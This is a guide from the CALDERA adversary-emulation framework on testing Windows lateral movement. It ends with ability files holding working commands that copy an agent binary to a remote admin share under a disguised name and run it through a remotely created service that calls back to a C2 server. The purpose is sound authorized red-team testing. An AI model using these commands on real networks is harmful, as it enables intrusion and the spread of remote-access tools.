# Windows Lateral Movement Guide

Exercising Caldera's lateral movement and remote execution abilities allows you to test how easily an adversary can move
within your network. This guide will walk you through some of the necessary setup steps to get started with testing 
lateral movement in a Windows environment.

## Setup

### Firewall Exceptions and Enabling File and Printer Sharing

The firewall of the target host should not be blocking UDP ports 137 and 138 and TCP ports 139 and 445. The firewall
should also allow inbound file and printer sharing.

```
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
```

### User with Administrative Privileges

This guide will assume a user *with administrative privileges to the target host* has been compromised and that a CALDERA
agent has been spawned with this user's privileges. Some methods of lateral movement may depend on whether (1) the user 
has administrative privileges but is not a domain account or (2) the user has administrative privileges and is a domain 
account. The example walkthrough in this guide should not be impacted by these distinctions.

### Additional Considerations

1. Ensure GPO/SRP or antivirus is not blocking remote access to shares.
2. Ensure at least ADMIN$, C$, and IPC$ shares exist on the target host.

## Lateral Movement Using CALDERA
Lateral movement can be a combination of two steps. The first requires confirmation of remote access to the next target 
host and the movement or upload of the remote access tool (RAT) executable to the host. The second part requires 
*execution* of the binary, which upon callback of the RAT on the new host would complete the lateral movement.

Most of CALDERA's lateral movement and execution abilities found in Stockpile have fact or relationship requirements 
that must be satisfied. This information may be passed to the operation in two ways:
1. The fact and relationship information may be added to an operation's source. A new source can be created or this
information can be added to an already existing source as long as that source is used by the operation. When configuring
an operation, open the "**AUTONOMOUS**" drop down section and select "Use [insert source name] facts" to indicate to the 
operation that it should take in fact and relationship information from the selected source.
2. The fact and relationship information can be discovered by an operation. This requires additional abilities to be run
prior to the lateral movement and execution abilities to collect the necessary fact and relationship information 
necessary to satisfy the ability requirements.

### Moving the Binary
There are several ways a binary can be moved or uploaded from one host to another. Some example methods used in 
CALDERA's lateral movement abilities include:
1. WinRM
2. SCP
3. wmic
4. SMB
5. psexec
 
Based on the tool used, additional permissions may need to be changed in order for users to conduct these actions 
remotely.

### Execution of the Binary
CALDERA's Stockpile execution abilities relevant to lateral movement mainly use wmic to remotely start the binary. Some 
additional execution methods include modifications to Windows services and scheduled tasks. The example in this guide 
will use the creation of a service to remotely start the binary (ability file included at the end of this guide).

See ATT&CK's [Execution](https://attack.mitre.org/tactics/TA0002/) tactic page for more details on execution methods.

### Displaying Lateral Movement in Debrief
Using the adversary profile in this guide and CALDERA's Debrief plugin, you can view the path an adversary took through 
the network via lateral movement attempts. In the Debrief modal, select the operation where lateral movement was 
attempted then select the Attack Path view from the upper right hand corner of graph views. This graph displays the 
originating C2 server and agent nodes connected by the execution command linking the originating agent to the newly
spawned agent.

In the example attack path graph below, the Service Creation Lateral Movement adversary profile was run on the `win10` 
host, which moved laterally to the `VAGRANTDC` machine via successful execution of the Service Creation ability.

![Debrief Attack Path Example](/img/debrief_attack_path.png)    

This capability relies on the `origin_link_id` field to be populated within the agent profile upon first
check-in and is currently implemented for the default agent, Sandcat. For more information about the `#{origin_link_id}`
global variable, see the explanation of **Command** in the [What is an Ability?](Learning-the-terminology.html#abilities-and-adversaries)
section of the Learning the Terminology guide. For more information about how lateral movement tracking is implemented 
in agents to be used with CALDERA, see the [Lateral Movement Tracking](How-to-Build-Agents.html#lateral-movement-tracking) 
section of the How to Build Agents guide.


## Example Lateral Movement Profile
This section will walkthrough the necessary steps for proper execution of the Service Creation Lateral Movement
adversary profile. This section will assume successful setup from the previous sections mentioned in this guide and that
a Sandcat agent has been spawned with administrative privileges to the remote target host. The full ability files used 
in this adversary profile are included at the end of this guide.

1. Go to `navigate` pane > `Advanced` > `sources`. This should open a new sources modal in the web GUI.
2. Click the toggle to create a new source. Enter "SC Source" as the source name. Then enter `remote.host.fqdn` as the 
fact name and the FQDN of the target host you are looking to move laterally to as the fact value. Click `Save` once 
source configuration has been completed.
3. Go to `navigate` pane > `Campaigns` > `operations`. Click the toggle to create a new operation. Under 
`BASIC OPTIONS` select the group with the relevant agent and the Service Creation Lateral Movement profile. Under 
`AUTONOMOUS`, select `Use SC Source facts`. If the source created from the previous step is not available in the 
drop down, try refreshing the page. 
4. Once operation configurations have been completed, click `Start` to start the operation.
5. Check the agents list for a new agent on the target host.

### Ability Files Used
```
- id: deeac480-5c2a-42b5-90bb-41675ee53c7e
  name: View remote shares
  description: View the shares of a remote host
  tactic: discovery
  technique:
    attack_id: T1135
    name: Network Share Discovery
  platforms:
    windows:
      psh:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
      cmd:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
```

```
- id: 65048ec1-f7ca-49d3-9410-10813e472b30
  name: Copy Sandcat (SMB)
  description: Copy Sandcat to remote host (SMB)
  tactic: lateral-movement
  technique:
    attack_id: T1021.002
    name: "Remote Services: SMB/Windows Admin Shares"
  platforms:
    windows:
      psh:
        command: |
          $path = "sandcat.go-windows";
          $drive = "\\#{remote.host.fqdn}\C$";
          Copy-Item -v -Path $path -Destination $drive"\Users\Public\s4ndc4t.exe";
        cleanup: |
          $drive = "\\#{remote.host.fqdn}\C$";
          Remove-Item -Path $drive"\Users\Public\s4ndc4t.exe" -Force;
        parsers:
          plugins.stockpile.app.parsers.54ndc47_remote_copy:
          - source: remote.host.fqdn
            edge: has_54ndc47_copy
        payloads:
        - sandcat.go-windows
  requirements:
  - plugins.stockpile.app.requirements.not_exists:
    - source: remote.host.fqdn
      edge: has_54ndc47_copy
  - plugins.stockpile.app.requirements.basic:
    - source: remote.host.fqdn
      edge: has_share
  - plugins.stockpile.app.requirements.no_backwards_movement:
    - source: remote.host.fqdn
```

```
- id: 95727b87-175c-4a69-8c7a-a5d82746a753
  name: Service Creation
  description: Create a service named "sandsvc" to execute remote Sandcat binary named "s4ndc4t.exe"
  tactic: execution
  technique:
    attack_id: T1569.002
    name: 'System Services: Service Execution'
  platforms:
    windows:
      psh:
        timeout: 300
        cleanup: |
          sc.exe \\#{remote.host.fqdn} stop sandsvc;
          sc.exe \\#{remote.host.fqdn} delete sandsvc /f;
          taskkill /s \\#{remote.host.fqdn} /FI "Imagename eq s4ndc4t.exe"
        command: |
          sc.exe \\#{remote.host.fqdn} create sandsvc start= demand error= ignore binpath= "cmd /c start C:\Users\Public\s4ndc4t.exe -server #{server} -v -originLinkID #{origin_link_id}" displayname= "Sandcat Execution";
          sc.exe \\#{remote.host.fqdn} start sandsvc;
          Start-Sleep -s 15;
          Get-Process -ComputerName #{remote.host.fqdn} s4ndc4t;
```

